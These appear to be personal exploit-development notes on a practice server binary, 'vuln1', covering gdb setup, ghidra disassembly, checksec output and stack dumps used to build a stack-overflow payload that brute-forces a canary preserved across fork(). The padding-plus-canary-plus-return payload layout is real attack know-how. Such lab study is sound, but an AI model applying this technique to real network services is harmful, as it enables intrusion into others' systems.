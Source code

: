 # Server Fork with recv() - vuln1

fork without execve() child process = canary does not change </br>
recv() = no null terminator '\x00' which makes canary bruteforce possible


### peda start, breakpoint for "NO symbol table" ...
need to get the program started and instantly break/stopped
```
gdb ./binary

gdb-peda$ exec-file binary
#or start or starti
gdb-peda$ starti
```
then
```
gdb-peda$ info proc mappings
gdb-peda$ info files

Entry point: 0x555555555180 , file type elf64-x86-64.
.....
0x0000555555555180 - 0x0000555555555651 is .text
....
0x00007ffff7fd6090 - 0x00007ffff7ff3ff0 is .text in /lib64/ld-linux-x86-64.so.2


gdb-peda$ b *0x555555555180
```
</br>
entry at 0x555555555180 = 00101180 from ghidra

```
                             undefined __stdcall entry(undefined8 param_1, undefined8
             undefined         AL:1           <RETURN>
             undefined8        RDI:8          param_1
             undefined8        RSI:8          param_2
             undefined8        RDX:8          param_3
             undefined8        Stack[-0x10]:8 local_10                                XREF[1]:     0010118e(*)  
                             entry                                           XREF[5]:     Entry Point(*), 00100018(*), 
                                                                                          001020c0, 00102118(*), 
                                                                                          _elfSectionHeaders::00000390(*)  
        00101180 31 ed           XOR        EBP,EBP
```
Want to break at 001014ec from ghidra :
```
        001014ec eb b4           JMP        LAB_001014a2
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined8 __stdcall break-func (uint param_1)
             undefined8        RAX:8          <RETURN>
``` 
</br>

set breakpoint = 0x0000555555555180  + 0x001014ec - 0x00101180 = 0x00005555555554EC </br>
After `gdb-peda$ starti `  </br>
`gdb-peda$  b *0x00005555555554EC ` </br>
!!note!! might have to kill old process if gdb-peda or nc (if binary is a server) did not exit correctly, then restart.

`killall nc ; killall binary `

### checksec 
```
gef➤  checksec
[+] checksec for 'vuln1'
Canary                        : Yes →  value: 0x4635cf1eaee08a00
NX                            : Yes
PIE                           : Yes
Fortify                       : No
RelRO                         : Partial
```
fork child process = canary does not change
recv() = no null terminator '\x00' which makes canary bruteforce possible

```
# nc 127.0.0.1 1337
Please enter the message you want to send to admin:
aaaaaaaaaaaaaaaaaaaaabbccc
Done.
```
'vuln1' uses libc.so.6 = libc leak, since the program returns after sending input
stripped = no symbol table, so no 'b main', use starti then set break point with ghidra reference
```
# file vuln1 
vuln1: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter 
/lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=cc3b330cabc203d0d813e3114f1515b044a1fd4f,
 stripped

# ldd vuln1 
	linux-vdso.so.1 (0x00007ffc2df84000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fd437426000)
	/lib64/ld-linux-x86-64.so.2 (0x00007fd437603000)

```

ghidra: break at 001015cc right after recv() or 001015e1 after stack canary check
```
001015c7 e8 64 fa        CALL       recv                                             ssize_t recv(int __fd, void * __
         ff ff
001015cc 90              NOP
001015cd 48 8b 55 f8     MOV        RDX,qword ptr [RBP + local_10]
001015d1 64 48 33        XOR        RDX,qword ptr FS:[0x28]
         14 25 28 
         00 00 00
001015da 74 05           JZ         LAB_001015e1
001015dc e8 8f fa        CALL       __stack_chk_fail                                 undefined __stack_chk_fail()
         ff ff
                     -- Flow Override: CALL_RETURN (CALL_TERMINATOR)
                     LAB_001015e1                                    XREF[1]:     001015da(j)  
001015e1 c9              LEAVE
001015e2 c3              RET
```
starti, then check canary
Need to set detach-on-fork, and follow-fork-mode in order to debug child process


```
gef >

starti
set detach-on-fork off
set follow-fork-mode child
b *0x00005555555555e2
canary
c
```
[https://vagmour.eu/persistence-1/](https://vagmour.eu/persistence-1/)
[]()
[]()

Send Payload (python3):
```
payload = b'a' * 0x34 + b'cccc' 
netcat( '127.0.0.1', 1337 , payload , i  , []  )
```

After sending payload:  (  Canary = 0x4769534786267b00 ) </br>
RBP =  0x00007fffffffe0e0
```
$rax   : 0x39              
$rbx   : 0x0               
$rcx   : 0x00007ffff7ef444d  →  0x6b77fffff0003d48 ("H="?)
$rdx   : 0x0               
$rsp   : 0x00007fffffffe0b8  →  0x0000555555555562  →   mov eax, DWORD PTR [rbp-0x14]
$rbp   : 0x00007fffffffe0e0  →  0x00007fffffffe140  →  0x00005555555555f0  →   push r15
$rsi   : 0x00007fffffffe070  →  "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa[...]"
$rdi   : 0x4               
$rip   : 0x00005555555555e2  →   ret 
$r8    : 0x0               
$r9    : 0x0               
$r10   : 0x0               
$r11   : 0x246             
$r12   : 0x0000555555555180  →   xor ebp, ebp
$r13   : 0x00007fffffffe220  →  0x0000000000000001
$r14   : 0x0               
$r15   : 0x0               
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 

gef➤  x/20gx $rsi
0x7fffffffe070:	0x6161616161616161	0x6161616161616161
0x7fffffffe080:	0x6161616161616161	0x6161616161616161
0x7fffffffe090:	0x6161616161616161	0x6161616161616161
0x7fffffffe0a0:	0x6363636361616161	0x4769534786267b00
0x7fffffffe0b0:	0x00007fffffffe0e0	0x0000555555555562
0x7fffffffe0c0:	0x0000000000000002	0x0000000400000000
0x7fffffffe0d0:	0x0000000000000000	0x4769534786267b00
0x7fffffffe0e0:	0x00007fffffffe140	0x00005555555554cf
0x7fffffffe0f0:	0x00007fffffffe228	0x00000001f7e9d745
0x7fffffffe100:	0x0000000000000000	0x0000053900000010

```
![rsi](stack1.JPG "rsi")

so payload = 

```
payload = b'a' * 0x34 + b'cccc' + CANARY + RBP + RETURN
```